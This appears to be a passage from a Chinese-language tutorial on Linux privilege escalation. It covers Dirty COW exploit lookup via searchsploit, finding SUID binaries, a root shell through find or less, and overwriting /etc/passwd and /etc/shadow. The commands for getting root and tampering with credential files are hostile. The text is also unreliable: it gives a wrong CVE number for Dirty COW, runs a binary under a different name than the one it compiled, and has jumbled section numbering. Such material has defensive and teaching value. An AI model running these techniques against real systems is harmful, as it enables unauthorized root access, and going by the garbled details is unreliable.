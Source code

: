 ### 04-脏牛提权

linux内核（Linux kernel >=2.6.22）的子系统在处理写入时复制至产生了竞争条件，恶意用户可利用此漏洞来获取高权限，对只读内存映射进行访问。（cve-2016-5159）

```bash
root@kali:~# searchsploit 2.6.22
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Linux Kernel 2.6.22 - IPv6 Hop-By-Hop Header  | linux/dos/30902.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty  | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/ | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRA | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc | linux/local/40611.c
Linux Kernel < 2.6.22 - 'ftruncate()'/'open() | linux/local/6851.c
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHjf23qdpSntV24ArsCtFFg7HKuvHR3HFT58wicQ3tJhPg36ShicN0QuqqibMredqTBgr1ib3o1F8802hA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

## 02-SUID 提权

SUID是一种对二进制程序进行设置的特殊权限，可以让二进制程序的执行者临时拥有属主的权限，若是对一些特殊命令设置了 SUID ，那么将会有被利用于提权的风险 。

使用【find 】命令查找设置SUID的文件

- find / -user root -perm -4000 -print 2>/dev/null
- find / -perm -u=s -type f 2>/dev/null
- find / -user root -perm -4000 -exec ls -ldb {} \;

### 01-find

如果find以SUID权限运行，所有通过find执行的命令都会以root权限运行。通过`sudo chmod u+s /usr/bin/find `给find添加SUID权限，然后编译42887.c脚本得到程序来提权

```bash
giantbranch@ubuntu:~/Desktop$ gcc 42887.c -o 42887
giantbranch@ubuntu:~/Desktop$ find 42877 -exec whoami \;
root
```

### 02-Less/More

Less 和 more 都可以执行提权的shell。less查看文件后输入`!/bin/sh`提权到root

### 03-cp/mv

cp，mv覆盖/etc/passwd，/etc/shadow

## 03-计划任务提权

